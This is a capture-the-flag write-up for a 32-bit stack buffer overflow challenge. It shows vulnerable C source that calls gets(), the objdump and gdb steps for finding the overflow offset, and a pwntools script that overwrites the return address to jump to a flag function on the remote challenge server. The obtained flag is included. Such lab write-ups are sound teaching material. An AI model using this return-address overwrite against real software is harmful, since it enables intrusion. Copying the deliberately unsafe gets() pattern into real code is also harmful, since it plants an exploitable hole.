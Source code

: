 # Control the flow
nc chal.firebird.sh 33002

1. From the source code, we can see gets() in fncno_1, flag_func exists for flag => attempt for buffer overflow to override the return address for fncno_1 returning to main -> change to flag_func
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

char flag[25];
void flag_func(){

  FILE *f = fopen("flag_rp.txt", "r");
  if (f == NULL) {
    printf("flag file is missing\n");
    exit(0);
  }

  fgets(flag, 25, f);
  printf("%s\n", flag);	

}


void fncno_1(){
  char buf[250];
  gets(buf);

  printf("%s\n", buf);


}

int main(int argc, char **argv){
setbuf(stdout,NULL);
gid_t gid = getegid();                           
setresgid(gid, gid, gid);

  puts("We fired the last programmer. Type something in and I'll repeat it to you, but I still can't remember too many things...\n");
  fncno_1();
  return 0;
}

```

2. Find the function pointer address of flag_func:
```
objdump -M intel -d return_pointer
```
We can see that for flag_func, its address: 0x080485b6

3. Attempt to build the code to try so as find the length of string need to write for overflow:
```
gcc -m32 return_pointer.c -g -o demo1 -fno-stack-protector -no-pie
objdump -M intel -d demo1
```
- After that, using gdb, run with the input cauing overflow
e.g. AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklmnopqr

- Check that where it will override EIP (return address for function) -> Invalid PC address error should be seen

4. Create a Python script using pwn library to solve this problem
```Python
from pwn import *

context.log_level = 'DEBUG'

# p = process('./demo1')
p= remote('chal.firebird.sh', 33002)

win = 0x080485b6

buf = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklm' + p32(win)

p.recvline()
p.sendline(buf)
p.interactive()
```

5. Execute it with python
```
python3 solve.py
```

![alt text](https://github.com/div1121/OIL_Test/blob/main/Control_the_flow/img1.png)

![alt text](https://github.com/div1121/OIL_Test/blob/main/Control_the_flow/img2.png)

Flag obtained:
flag{th15_1s_4_gd_st4rt}

